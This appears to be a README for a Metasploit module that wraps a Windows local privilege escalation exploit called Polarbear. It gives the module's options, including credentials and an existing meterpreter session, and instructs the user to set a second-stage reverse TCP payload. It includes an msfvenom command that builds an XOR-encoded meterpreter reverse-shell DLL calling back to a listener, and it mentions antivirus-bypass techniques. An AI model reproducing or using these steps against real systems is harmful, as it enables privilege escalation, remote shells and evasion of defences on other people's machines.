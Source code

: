 # Metasploit module for Polarbear Windows LPE Exploit

## Usage

Exploit Options:

SESSION => Current meterpreter session for unprivileged user.
USERNAME => This is the username for an unprivileged user.
PASSWORD => This is the password for the same unprivileged user.
DOMAIN => This is the domain name the unprivileged user is under.
DLLPATH => This is a local path to the meterpreter reverse tcp dll.

Be sure to set PAYLOAD to a second stage meterpreter reverse tcp for the elevated connect back with:

PAYLOAD => exploit/windows/meterpreter/reverse_tcp
LHOST => Same LHOST as used for DLL
LPORt => Same LPORT as used for DLL

## Generating DLL

The DLL can be generated with:

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.56.105 LPORT=4443 -e x64/xor -f dll -o payload.dll
```

Where LHOST is your meterpreter reverse tcp listener IP, and LPORT is the port.

## Improvements

Auto-generated OTP encoded polarbear.exe and second stage DLL with antivirus bypassing techniques.

![](success.png)
